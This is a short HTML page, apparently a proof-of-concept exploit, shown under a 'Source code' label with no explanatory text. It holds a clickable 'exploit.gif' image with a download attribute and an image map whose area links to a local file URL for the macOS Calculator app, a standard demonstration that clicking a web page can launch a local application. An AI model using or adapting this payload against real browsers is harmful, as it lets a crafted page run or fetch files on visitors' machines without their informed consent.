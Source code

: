 <!DOCTYPE html>
<html>
<body>
    <p>
        Click me!
    </p>
<img src="exploit.gif" width="145" height="126"usemap="#exploitmap" alt="exploit" download>
<map name="exploitmap">
  <area shape="rect" coords="0,0,82,126" alt="exploit" id="exploitme" href="file:\\\Applications\Calculator.app">
</map>
</body>
</html>


